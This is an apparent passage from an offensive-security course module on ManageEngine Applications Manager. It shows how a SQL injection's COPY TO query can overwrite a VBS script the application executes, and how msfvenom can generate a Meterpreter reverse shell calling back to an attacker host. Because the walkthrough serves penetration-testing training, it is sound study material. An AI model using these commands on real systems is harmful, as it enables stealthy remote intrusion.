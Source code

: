 ![Figure 19: Process Monitor can help us identify which VBS scripts are used by the Application Manager](https://static.offsec.com/offsec-courses/WEB-300/images/manageengine_sqli/57b2030e430d9e185c47f350b002c5f0-procmon.png)

Figure 19: Process Monitor can help us identify which VBS scripts are used by the Application Manager

Since we know that this script is executed by the application, we can generate a meterpreter reverse shell payload and insert it at the end of the file. The tasks performed by the target VBS script are not important to us. However, we want to make sure that the original functionality of the script is maintained as we would like to stay as stealthy as possible.

A few things we need to keep in mind are:

1. We need to make a backup copy of the target file as we will need to restore it once we are done with this attack vector.
    
2. We have to convert the content of the target file to a one-liner and make sure it is still executing properly before appending our payload. This is because _COPY\ TO_ can't handle newline control characters in a single _SELECT_ statement.
    
3. Our payload must also be on a single line for the same reason as stated above.
    
4. We have to encode our payload twice in the GET request. We need to use _base64_ encoding to avoid any issues with restricted characters within the _COPY TO_ function and we also need to _urlencode_ the payload so that nothing gets mangled by the web server itself. Finally, we need to use the _convert_from_ function to convert the output of the decode function to a human-readable format. The general query that we will use for the injection looks like this:
    

```
copy (select convert_from(decode($$ENCODED_PAYLOAD$$,$$base64$$),$$utf-8$$)) to $$C:\\Program+Files+(x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;
```

> Listing 38 - General structure of the query we inject

5. We need to use a _POST_ request due to the size of the payload, as it exceeds the limits of what a _GET_ request can process. This is not an issue because, as we previously saw, the _doPost_ function simply ends up calling the _doGet_ function.

Before putting all the pieces together let's generate our meterpreter reverse shell using the following command on Kali:

```
kali@kali:~$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.119.120 LPORT=4444 -e x86/shikata_ga_nai -f vbs
```

> Listing 39 - Generating a VBS reverse shell

As a reminder, this is what the original wmiget.vbs looked like.

![Figure 20: Original VBS file](https://static.offsec.com/offsec-courses/WEB-300/images/manageengine_sqli/92b56d7b34d13904ffe7236f88e22596-orig_vbs.png)

Figure 20: Original VBS file

In the end, the resulting complete file should look similar to this:

![Figure 21: Final version of the injected VBS file](https://static.offsec.com/offsec-courses/WEB-300/images/manageengine_sqli/6d06cfb1028e9033055dafc5fa8f1642-vbsfile.png)
